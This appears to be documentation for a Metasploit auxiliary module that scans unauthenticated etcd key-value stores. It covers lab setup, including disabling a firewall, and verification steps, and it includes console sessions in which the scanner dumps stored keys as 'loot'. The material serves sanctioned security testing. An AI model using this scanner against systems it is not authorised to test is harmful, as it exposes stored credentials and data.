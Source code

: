 ## Vulnerable Application

etcd is a distributed reliable key-value store, which when used in an open and default configuration gives
unauthenticated users access to the data stored via HTTP API.

### Centos 7.1

  1. `yum install etcd`
  2. `vi /etc/etcd/etcd.conf` replace (and uncomment) items with `localhost` for your IP.
  3. `systemctl start etcd; systemctl enable etcd`
  4. On Centos 7.1 you need to mod (or disable) the firewall: `systemctl stop firewalld`
  5. Lastly, lets add a key-value for interest: `curl http://[IP]:2379/v2/keys/supersecret -XPUT -d value="password!"`

### Docker

  1. `docker run -p 2379:2379 miguelgrinberg/easy-etcd`

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/etcd/open_key_scanner```
  4. Do: ```set rhosts [IPs]```
  5. Do: ```run```
  6. You should get a JSON response, and the data saved to `loot`.

## Scenarios

### etcd 3.2.15 on CentOS 7.1

```
msf5 > use auxiliary/scanner/etcd/open_key_scanner
msf5 auxiliary(scanner/etcd/open_key_scanner) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 auxiliary(scanner/etcd/open_key_scanner) > run

[+] 2.2.2.2:2379
Version: {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
Data: {
  "action": "get",
  "node": {
    "dir": true,
    "nodes": [
      {
        "key": "/supersecret",
        "value": "password",
        "modifiedIndex": 6,
        "createdIndex": 6
      }
    ]
  }
}

Loot
====

host           service  type       name       content     info       path
----           -------  ----       ----       -------     ----       ----
2.2.2.2                 etcd.data  etcd.keys  text/plain  etcd keys  /root/.msf4/loot/20180325144351_default_2.2.2.2_etcd.data_425280.txt

msf5 auxiliary(scanner/etcd/open_key_scanner) > services
Services
========

host           port  proto  name  state  info
----           ----  -----  ----  -----  ----
2.2.2.2        2379  tcp    etcd  open   {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
```

### etcd in Docker

```
msf5 > use auxiliary/scanner/etcd/open_key_scanner
msf5 auxiliary(scanner/etcd/open_key_scanner) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf5 auxiliary(scanner/etcd/open_key_scanner) > run

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/etcd/open_key_scanner) > run

[+] 127.0.0.1:2379
Version: {"etcdserver":"3.1.3","etcdcluster":"3.1.0"}
Data: {
  "action": "get",
  "node": {
    "dir": true
  }
}
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/etcd/open_key_scanner) > loot

Loot
====

host       service  type       name       content    info       path
----       -------  ----       ----       -------    ----       ----
127.0.0.1           etcd.data  etcd.keys  text/json  etcd keys  /Users/jhart/.msf4/loot/20180328092245_default_127.0.0.1_etcd.data_260058.txt

msf5 auxiliary(scanner/etcd/open_key_scanner) > services
Services
========

host       port  proto  name  state  info
----       ----  -----  ----  -----  ----
127.0.0.1  2379  tcp    etcd  open   {"etcdserver":"3.1.3","etcdcluster":"3.1.0"}
```
